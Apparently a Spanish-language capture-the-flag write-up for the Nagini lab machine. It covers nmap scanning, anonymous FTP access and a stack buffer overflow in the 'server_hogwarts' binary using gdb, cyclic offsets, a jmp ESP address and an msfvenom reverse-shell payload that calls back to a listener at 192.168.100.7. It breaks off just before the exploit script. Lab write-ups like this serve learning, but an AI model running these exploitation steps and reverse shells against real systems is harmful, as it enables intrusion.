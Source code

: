 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:






